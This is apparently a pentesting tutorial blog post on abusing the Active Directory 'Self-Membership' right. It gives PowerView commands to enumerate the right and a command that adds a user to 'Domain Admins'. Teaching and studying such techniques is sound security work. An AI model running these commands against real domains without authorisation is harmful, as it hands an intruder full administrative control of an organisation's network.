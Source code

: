 ```yaml
---
title: Self-Membership
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# Self-Membership

Self-Membership : Ability to add yourself to a group. If you have `Self-Membership` on group, you can add yourself to the group.

# Enumeration

## PowerView

### Self-Membership Enumeration 

We will get current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which we have `Self-Membership` right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[our_current_user_sid]") -and ($_.objectacetype -like "*self-membership*")}

```

Below image shows the current user `usman` has Self-Membership right on `Domain Admins` group.

![aclgroupgenall](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupself2.png)

## BloodHound

We can also get thesame result using bloodhound.

Below image shows the current user `usman` has Self-Membership right on `Domain Admins` group.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupself1.png)

# Exploitation

Let's check our current group.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall3.png)

Here `usman` is a member of `Domain Users` group. We are going to exploit `Self-Membership` to add `usman` to `Domain Admins`.

## PowerView

Since we have `Self-Membership` right on `Domain Admins` group, we can add `usman` to the group by executing the below command

Command

```powershell
add-domaingroupmember -identity "Domain Admins" -members usman

```

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall4.png)

Let's check it by executing `get-netgroup -memberidentity usman`

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall4.png)

As you can see, `usman` has been added to `Domain Admins` group.
	
# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
